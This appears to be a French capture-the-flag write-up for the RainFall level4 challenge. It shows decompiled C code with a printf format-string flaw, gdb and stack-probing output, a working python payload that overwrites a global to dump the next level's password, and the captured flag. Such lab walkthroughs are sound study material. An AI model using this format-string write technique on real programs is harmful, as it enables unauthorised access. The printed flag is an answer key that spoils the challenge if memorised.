 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=b9f0625b-1ccf-4c04-ba81-40bf2a6eb0c0 

```c
void p(char *param_1) {
  printf(param_1);
  return;
}

void n(void) {
  char local_20c[520];
 
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) { // 16 930 116
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void) {
  n();
  return;
}
```

# Explication

Ici c’est quasiment la même chose, c’est un exploit du formatstring de printf, on doit faire en sorte
que la condition soit vraie.

Adresse de m :
```
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x8049810
```

On regarde à quel position est stocké la chaîne d'affichage (premier 0x61 `a`), en regardant l'output
de printf on en déduit que c'est le 12eme caractère.

```
level4@RainFall:~$ echo "aaaaaaaaaaaaaaaaaa%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p" | ./level4
aaaaaaaaaaaaaaaaaa0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x61616161 0x61616161 0x61616161 0x70256161
```

On doit retourner : 16 930 116 - 4 (pour l’adresse) = %16930112x

```
(python -c "print('\x10\x98\x04\x08%16930112x%12\$n')"; cat) | ./level4
```

On obtient le flag !

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
